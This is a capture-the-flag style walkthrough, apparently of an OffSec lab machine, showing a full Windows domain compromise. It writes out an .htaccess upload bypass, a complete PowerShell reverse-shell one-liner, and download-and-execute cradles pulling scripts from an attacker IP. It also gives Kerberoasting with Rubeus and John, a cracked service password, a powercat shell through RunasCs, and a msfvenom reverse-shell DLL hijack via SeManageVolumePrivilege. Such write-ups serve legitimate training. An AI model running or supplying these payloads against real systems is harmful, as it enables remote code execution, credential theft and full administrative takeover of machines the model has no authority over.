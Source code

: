 ```yaml
---
description: >-
  Leveraged SeManageVolumePrivilege and DLL hijacking permission to escalate
  privileges.
---
```


# Access

## Summary

* The machine had a file upload functionality but implemented protections that denied uploading files with a .php extension.
* The web application allowed the upload of .htaccess files, enabling a bypass of these defenses.
* Uploading a webshell provided access to the <mark style="color:red;">svc\_apache</mark> user.
* Another user, svc\_mssql, was identified on the machine, and an SPN was present for this user.
  * This situation was ideal for attempting Kerberoasting.
* Rubeus.exe was used to perform Kerberoasting, successfully retrieving the password for the svc\_mssql user.
* The svc\_mssql user had the <mark style="color:red;">SeManageVolumePrivilege</mark>, which was exploited using <mark style="color:green;">seManageVolumnExploit.exe</mark> to gain administrative write privileges on the entire machine.
* DLL injection was used to inject a malicious DLL, resulting in a reverse shell as the NT user.



## Let's unpack

### Enumeration

```bash
# Nmap
sudo nmap -sC -sN -A -oN nmapFull -p- -A 192.168.176.187
 
Nmap scan report for 192.168.176.187
Host is up (0.073s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-title: Access The Event
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 14:48:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49790/tcp open  msrpc         Microsoft Windows RPC
```

A web app on port 80 had upload functionality and implemented all possible protections to prevent Arbitrary file upload issues. However, it also supported the upload of a <mark style="background-color:red;">.htaccess</mark> file.

Bypassing PHP protection by uploading `.htaccess` file

{% embed url="http://michalszalkowski.com/security/pentesting-web/file-upload-bypass-htaccess/" %}

```bash
cat .htaccess 
AddType application/x-httpd-php .evil
```

on uploading this file, `.evil` extension will be interpreted as php and will get executed.&#x20;

### Initial Foothold

Let's get reverse shell using above findings

```bash
## 1. Executing the following command in our webshell

# ps1 reverse shell code
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.209",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# spawning server
python3 -m http.server 8080

## 2. Executing the following command in our webshell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.209:8000/exp.ps1')"

# URL encode the above command to send it through thr webshell
powershell%20-c%20%22IEX%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A%2F%2F192.168.45.209%3A8000%2Fexp.ps1%27%29%22%0A

# In parallel, run netcat to catch the reverse shell
nc -nlvp 4444

# Let's Execute
curl http://192.168.161.187/uploads/ex.php.evil?cmd=powershell%20-c%20%22IEX%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A%2F%2F192.168.45.231%3A8000%2Fexp.ps1%27%29%22%0A
```

### Privilege Escalation/Lateral Movement

On getting a reverse shell, I found a user list

<pre class="language-bash"><code class="lang-bash"> net users
<strong>>
</strong><strong>Administrator            Guest                    krbtgt                   
</strong>svc_apache               svc_mssql  
</code></pre>

Found SPN of svc\_mssql service, which indicates that we could perform Kerberosting

```powershell
# Using Rubeus.exe to perform Kerberoasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

# Using John to crack the hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash


# Got the password of svc_mssql
trustno1
```

Getting a shell as svc\_mssql using RunasCs as Remote access is disabled for this user.&#x20;

#### Lateral Movement (svc\_apache -> svc\_mssql)

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```powershell
# running ps1 script of runAscs
> 
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"

# using powercat to get reverse shell
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.231:8000/powercat.ps1');powercat -c 192.168.45.231 -p 5555 -e cmd"
```



#### PrivEsc (svc\_mssql -> administrator)

```powershell
# svc_mssql had the following privileges
# whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled


https://github.com/CsEnox/SeManageVolumeExploit
```



We are going to escalate privileges using the <mark style="background-color:red;">SeManageVolumePrivilege</mark> permission.

{% embed url="https://github.com/CsEnox/SeManageVolumeExploit" %}

<details>

<summary>TL'DR</summary>

If a user has privileges, we can use the following technique to get elevated shell.

### Background

The general idea is that the attacker can leverage this particular privilege with the exploitation to get full control over "C:\\", and then it can craft a ".dll" file and place it in somewhere "C:\Windows\System32\\" to trigger the payload as root.

### Technique

On executing the exploit, we can write anything in the <mark style="color:red;">C:\\</mark> directory. A simple Priv escalation would be to add a malicious DLL that would give us an elevated reverse shell on execution.

</details>

Download [this](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public) exploit and transfer it to victim machine

```bash
# Transfer and execute the exploit to window machine
.\SeManageVolumeExploit.exe

# on executingm, we should be able to write anything in C:\windows\system32\*
icacls.exe C:\Windows\System32\
```

Now, we need to create a malicious DLL that would give us a reverse shell

```bash
# using msfvenom
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.49.231 LPORT=6666 -f dll -o tzres.dll


# start nc listner on 6666
nc -nlvp 6666
```

Now, place this DLL in such a place where executing it would be simple, for instance on running `systeminfo` command we should be able to get a reverse shell.

we can move the DLL to `C:\\windows\\system32\\wbem` directory

```bash
copy tzres.dll C:\Windows\System32\wbem\

# just exeucte the systeminfo command, you will get a reverse shell as Admin
```

Refer to this amazing ddlref created by S1ren:

{% embed url="https://sirensecurity.io/blog/dllref/" %}

<mark style="background-color:red;">dllref</mark> is a list of DLLs that can be used for privilege escalation. This list not only includes various options but also the trigger points for each DLL. In our case, other DLLs can be used instead of <mark style="color:red;">tzres.dll</mark> to achieve the reverse shell trigger.



